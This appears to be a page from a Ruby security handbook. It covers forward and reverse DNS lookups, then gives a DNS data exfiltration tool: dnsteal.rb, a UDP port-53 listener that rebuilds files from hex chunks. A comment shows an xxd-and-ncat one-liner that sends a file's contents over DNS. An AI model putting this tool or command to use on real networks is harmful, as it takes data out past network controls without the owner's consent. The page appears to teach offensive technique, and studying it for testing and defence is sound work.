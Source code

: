 # DNS

## DNS lookup

### Forward DNS lookup \(Host to IP\)

```ruby
require 'resolv'
Resolv.getaddresses "rubyfu.net"
```

Returns array of all IPs

```text
["23.23.122.48", "107.20.161.48", "174.129.41.187"]
```

or use `Resolv.getaddress` to get one address only

### Reverse DNS lookup \(IP to Host\)

```ruby
require 'resolv'
Resolv.getnames "23.23.122.48"
```

Returns array of all hostnames, if PTR is assigned

```text
["ec2-174-129-41-187.compute-1.amazonaws.com"]
```

or use `Resolv.name` to get one name only

## DNS Data Exfiltration

DNS out-band connection is usually allowed in local networks, which is the major benefits of using DNS to transfer data to external server.

**dnsteal.rb**

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
# for hex in $(xxd -p ethernet-cable.jpg); do echo $hex | ncat -u localhost 53 ; done
# 
require 'socket'

if ARGV.size < 1
  puts "[+] sudo ruby #{__FILE__} <FILENAME>"
  exit
else
  file = ARGV[0]
end

# Open UDP Socket and bind it to port 53 on all interfaces
udpsoc = UDPSocket.new
udpsoc.bind('0.0.0.0', 53)

begin

  data     = ''
  data_old = ''

  loop do
    response = udpsoc.recvfrom(1000)
    response = response[0].force_encoding("ISO-8859-1").encode("utf-8")
    data = response.match(/[^<][a-f0-9]([a-f0-9]).*[a-f0-9]([a-f0-9])/i).to_s

    # Write received data to file
    File.open(file, 'a') do |d|
      d.write [data].pack("H*") unless data == data_old     # Don't write the same data twice(poor workaround)
      puts data unless data == data_old
    end

    data_old = data 
  end

rescue Exception => e
  puts e
end
```

Run it

```text
ruby dnsteal.rb image.jpg
```

* [dnsteal.py](https://github.com/m57/dnsteal)

